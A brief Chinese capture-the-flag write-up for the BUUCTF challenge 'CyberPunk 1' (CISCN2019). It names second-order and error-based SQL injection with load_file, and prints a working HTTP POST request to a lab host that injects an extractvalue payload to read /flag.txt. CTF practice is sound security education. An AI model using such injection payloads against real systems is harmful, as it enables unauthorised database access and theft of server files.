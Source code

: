# WP
[BUUCTF-WEB 【CISCN2019 华北赛区 Day1 Web5】CyberPunk 1](https://fanygit.github.io/2021/05/11/[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web5]CyberPunk%201/)
# 知识点
二次注入<br />报错注入<br />load_file读文件
```http
POST /confirm.php HTTP/1.1
Host: a40b340f-e5c2-498d-9e82-572caf7f79a9.node4.buuoj.cn:81
Content-Length: 115
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://a40b340f-e5c2-498d-9e82-572caf7f79a9.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://a40b340f-e5c2-498d-9e82-572caf7f79a9.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

user_name=31&phone=2&address=123'and(select+extractvalue(1,reverse(concat(0x7e,(select+load_file("/flag.txt"))))))#
```
